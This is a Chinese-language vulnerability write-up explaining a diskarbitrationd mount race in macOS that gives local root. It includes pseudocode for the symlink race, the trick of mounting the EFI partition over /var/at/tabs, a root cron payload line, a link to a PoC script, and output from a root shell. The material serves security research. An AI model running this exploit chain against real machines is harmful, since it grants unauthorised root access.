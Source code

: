 <br>

**构建 PoC**

整理一下思路，我们使用伪代码来演示，如何利用该漏洞将任意设备挂载到 /etc 目录下：

```
disk = "/dev/some-disk-device"
in the background:
  while true:
    建立软链接 "/tmp/foo" 指向 "/"
    删除软链接
while disk not mounted at "/etc":
  向 diskarbitrationd 发送 IPC 请求，将磁盘挂载到 "/tmp/foo/etc"
```

首先我们会向 diskarbitrationd 发送请求，挂在磁盘到特定目录，如果竞争操作成功，则挂载点被删除，check 函数被绕过。同时，挂载点重新被创建，最后进入挂载流程。但是需要注意的是，我们暂时没有权限对 /etc 目录进行操作，除非使用 sudo 对用户权限进行提升。

对于完成最终的权限提升，我们还需要解决两个问题：

1. Mac 中是否存在一个没有被挂载，但是本地用户可写的磁盘

2. 将磁盘挂载到哪个目录，该目录下运行程序是通过 root 上下文进行的

第一个问题比较容易解决，我们可以列出所有可用的磁盘：

```
$ ls -alih /dev/disk*
589 brw-r-----  1 root  operator    1,   0 Mar 15 10:27 /dev/disk0
594 brw-r-----  1 root  operator    1,   1 Mar 15 10:27 /dev/disk0s1
598 brw-r-----  1 root  operator    1,   3 Mar 15 10:27 /dev/disk0s2
596 brw-r-----  1 root  operator    1,   2 Mar 15 10:27 /dev/disk0s3
600 brw-r-----  1 root  operator    1,   4 Mar 15 10:27 /dev/disk1
```

其中 /dev/dis0s1 满足我们的需求，该分区是 EFI 分区，格式为 FAT32，主要用于 BIOS 固件更新和启动引导，并存在于几乎所有版本的 MacBook 设备中。通常情况下，该设备并没有挂载。而由于该分区属于 FAT 格式，并不支持 Unix* 的文件权限管理，所以我们可以正常对其进行写入操作。

除此之外，我想还可以通过 [hdiutil](https://developer.apple.com/legacy/library/documentation/Darwin/Reference/ManPages/man1/hdiutil.1.html) 来建立一个可写设备，但是在默认策略下，没有利用成功。

第二个问题稍微有点棘手，花了一点时间。即使在新版 macOS 中，也有 [cron 服务](https://en.wikipedia.org/wiki/Cron) 的背影，但是该服务默认并没有运行。然而当我们在 /var/at/tabs 建立任务文件时，launchd 会自动启动 cron 进程来完成任务调度。因此，我们可以将磁盘挂载到 /var/at/tabs，并在 /var/at/tabs/root 下写入 payload，最终以 root 身份执行命令：

```
* * * * * touch /tmp/pwned
```

该指令会在每分钟执行一次，当然，使用的是 root 权限。至此，我们成功利用该漏洞完成权限提升，PoC 代码可以 [访问这里](https://github.com/phoenhex/files/blob/master/pocs/poc-mount.sh) 进行下载，注意需要安装 clang 编译器：

```
$ ./poc-mount.sh
Just imagine having that root shell. It's gonna be legen...
wait for it...
dary!
./poc-mount.sh: line 77:  3179 Killed: 9               race_link
sh-3.2# id
uid=0(root) gid=0(wheel) groups=0(wheel),1(daemon),2(kmem),3(sys),4(tty),5(operator),8(procview),9(procmod),12(everyone),20(staff),29(certusers),61(localaccounts),80(admin),401(com.apple.sharepoint.group.1),33(_appstore),98(_lpadmin),100(_lpoperator),204(_developer),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh)
sh-3.2#
```
